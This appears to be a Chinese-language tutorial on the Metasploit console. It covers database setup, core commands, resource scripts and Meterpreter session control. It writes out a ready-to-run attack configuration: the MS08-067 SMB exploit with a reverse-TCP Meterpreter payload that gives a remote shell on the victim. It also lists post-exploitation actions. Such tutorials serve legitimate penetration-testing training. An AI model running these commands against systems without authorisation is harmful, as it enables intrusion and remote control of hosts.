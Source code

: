 # Metasploit

使用 Metasploit 兩個主流介面： ``Armitage``(GUI) 以及 ``MSFconsole``(command line)

  > P.S: 第三個主流介面 msfcli 在 2015 年 deprecated

## 透過 msfconsole 使用 Metasploit

1. 管理 Metasploit 資料庫
2. 管理 Session
3. 配置、啟動 Metasploit framework


啟動前必須先連上資料庫，可透過 ``ps -aux`` 來確認

```shell
$ service postgresql start
$ msfdb init
```

啟動 msf concole

```shell
$ msfconsole
```
在 msfconsole 中先確認是否成功連上資料庫
```shell
$ db_status
```

常用指令分為兩大類： `Core command` 以及 ``db backend command``

Core command:

```sh
> help # 指令幫助訊息，查看所有指令
> use [module] # 加載指定模組
> set [option] [value]
  # 在加載 module 的情形下，為 module 配置不同選項
  # 沒有 option 與 value 則會顯示已經配置的訊息資料
  # set payload [path-to-payload] 指定加載 payload
  # set RHOST 192.168.0.43 指定 Remote Host IP 位址

> options 
  # 列出現在可以配置的選項，在 module 裡面的第一步就是看 options 說明書。
  # 如果不在任何模組之下，則會顯示 Global options
> run # 啟動攻擊模組, alias to exploit
> exploit # 啟動攻擊模組
> search [module] # 搜尋特定模組
> show # Global context 將顯示所有模組訊息
  > show auxiliary #秀出所有 auxiliary 模組
    # auxiliary 包含 scanners, DoS modules, fuzzers, and more...
  > show exploits # 秀出所有攻擊模組
  > show options  
  > show payloads
  > show advanced # 進階 fine-tune 模組設定
  > show targets # 秀出該模組適合攻擊的 OS
> exit # 退出 msfconsole
```


```sh
  msf> search linux
```


## 將指令寫成腳本 .rc 透過 msfconsole 一次執行

直接鍵入 ``msfconsole`` 會進入 interactive 模式，你也可以先將指令寫成 ``resource script`` 後直接透過 msfconsole 執行。

```sh
  $ msfconsole --help # 秀出 command options
  
  ##############################
    Database options
      -M, --migration-path DIRECTORY   Specify a directory containing additional DB migrations
      -n, --no-database                Disable database support
      -y, --yaml PATH                  Specify a YAML file containing database settings

    Framework options
        -c FILE                          Load the specified configuration file
        -v, --version                    Show version

    Module options
            --defer-module-loads         Defer module loading unless explicitly asked.
        -m, --module-path DIRECTORY      An additional module path


    Console options:
        -a, --ask                        Ask before exiting Metasploit or accept 'exit -y'
        -L, --real-readline              Use the system Readline library instead of RbReadline
        -o, --output FILE                Output to the specified file
        -p, --plugin PLUGIN              Load a plugin on startup
        -q, --quiet                      Do not print the banner on startup
        -r, --resource FILE              Execute the specified resource file (- for stdin)
        -x, --execute-command COMMAND    Execute the specified string as console commands (use ; for multiples)
        -h, --help                       Show this message
  ##############################
```
先將指令寫成 ``temp.rc``：

```rc
  use exploit/windows/smb/ms08_067_netapi  
  set RHOST [IP]  
  set PAYLOAD windows/meterpreter/reverse_tcp  
  set LHOST [IP]  
  run
```

然後透過 ``-r`` 執行：

```sh
  msfconsole -r temp.rc
```

以上行為可透過 ``-x`` 一次 inline 寫完，等價為：

```sh
  msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST [IP]; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST [IP]; run"
```

或是已經在 ``msfconsole`` 裡面時透過指令 **resource**:

```sh
  msf> resource temp.rc
```


## 控制 Meterpreter

Meterpreter 就是一個 payload, 在漏洞利用後必須執行的一支程式，讓你可以跟受害主機之間有一個溝通的管道來傳遞訊息，並做所有操作。

* help：查看帮助信息。
* background：允许用户在后台Meterpreter会话。
* download：允许用户从入侵主机上下载文件。
* upload：允许用户上传文件到入侵主机。
* execute：允许用户在入侵主机上执行命令。
* shell：允许用户在入侵主机上（仅是Windows主机）运行Windows shell命令。
* session -i：允许用户切换会话。

透過 ``show payloads`` 用來顯示所有可以使用的 payloads





# Reference
* [Metasploit Fundamentals](https://www.offensive-security.com/metasploit-unleashed/using-databases/)

* [Metasploit for Beginners](MetaSploit tutorial for beginners)

* [msfconsole core command](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)
